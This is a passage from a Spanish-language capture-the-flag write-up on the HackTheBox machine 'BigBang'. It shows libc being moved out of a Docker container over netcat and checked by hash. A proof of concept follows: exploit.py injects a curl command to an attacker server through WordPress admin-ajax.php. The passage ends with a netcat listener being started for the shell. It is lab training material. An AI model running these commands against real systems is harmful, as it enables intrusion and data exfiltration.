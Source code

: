 > Atacante

~~~ bash
nc -lnvp 443 > libc.so.6
~~~

Desde nuestro contenedor, usaremos `netcat` para enviar la librería a la IP de `docker` de nuestra máquina atacante

> Contenedor

~~~ bash
root@2431b1b14659:/# nc -nv 172.17.0.1 443 < /lib/x86_64-linux-gnu/libc.so.6
~~~

Para validar la transferencia, podemos calcular el hash `MD5` correspondiente al archivo

~~~ bash
# Atacante
md5sum libc.so.6

# Docker
root@2431b1b14659:/# md5sum /lib/x86_64-linux-gnu/libc.so.6
~~~

Ambos archivos deberían devolver el mismo hash `md5`. En el caso de que sea diferente, es posible que haya ocurrido un error en la transferencia

~~~
93283f4792e89ca473d0593b04f10c09
~~~

### Proof of Concept

Probaremos el exploit para comprobar que la explotación funciona. En el siguiente ejemplo, enviaremos una solicitud HTTP a un servidor controlado por nosotros (recuerda levantar el servidor antes de ejecutar el siguiente comando)

~~~ bash
python3 exploit.py "http://blog.bigbang.htb/wp-admin/admin-ajax.php" "curl http://10.10.15.9/test"
~~~

A la hora de ejecutar el exploit, deberíamos recibir la solicitud HTTP al recurso `test`, que no existe, ¡esto es lo que esperábamos exactamente :D!

~~~ bash
python3 -m http.server 80                                                                                                                  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.52 - - [03/May/2025 12:03:23] code 404, message File not found
10.10.11.52 - - [03/May/2025 12:03:23] "GET /test HTTP/1.1" 404 -
~~~

### Exploiting

Una vez tenemos la librería en nuestro directorio actual de trabajo, lanzaremos el ataque. Primeramente pondremos un puerto a la escucha para recibir una conexión por un puerto, en mi caso el `443`

~~~ bash
nc -lvnp 443
~~~
